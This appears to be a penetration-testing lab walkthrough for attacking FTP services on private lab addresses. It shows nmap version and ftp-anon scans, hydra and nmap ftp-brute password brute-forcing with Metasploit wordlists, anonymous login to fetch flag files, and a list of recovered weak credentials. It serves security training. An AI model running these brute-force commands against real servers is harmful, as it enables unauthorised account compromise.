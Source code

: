 ```
jane:abc123
admin:password1
```

## FTP

### Basics

```bash
john@kali> ip a
john@kali> ping 192.152.30.3
john@kali> nmap 192.152.30.3

# 1. What is the version of FTP server?
john@kali> nmap 192.152.30.3 -p 21 -sV

# 2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt 
#    and password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
#    to check if any of these credentials work on the system. List all found credentials.
john@kali> hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.152.20.3 ftp

# 3. Find the password of user “sysadmin” using nmap script.
john@kali> echo 'sysadmin' > user.txt
john@kali> nmap 192.152.20.3 --script ftp-brute -p 21 --script-args passdb='/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt',userdb='user.txt'

# 4. Find seven flags hidden on the server.
john@kali> ftp 192.152.20.3 (sysadmin:654321, rooty:qwerty, (...), diag:tigger)
ftp> get secret.txt
```

Credentials : `sysadmin:654321` `rooty:qwerty` `demo:butterfly` `auditor:chocolate` `anon:purple` `administrator:tweety` `diag:tigger`

### Anonymous login

```bash
john@kali> ip a
john@kali> ping 192.24.220.3
john@kali> nmap 192.24.220.3

# 1. Find the version of vsftpd server.
john@kali> nmap 192.24.220.3 -p 21 -sV

# 2. Check whether anonymous login is allowed on the ftp server using nmap script.
john@kali> nmap 192.24.220.3 -p 21 --script ftp-anon

# 3. Fetch the flag from FTP server.
john@kali> ftp 192.24.220.3 (anonymous:)
ftp> get flag
ftp> exit
john@kali> cat flag
```
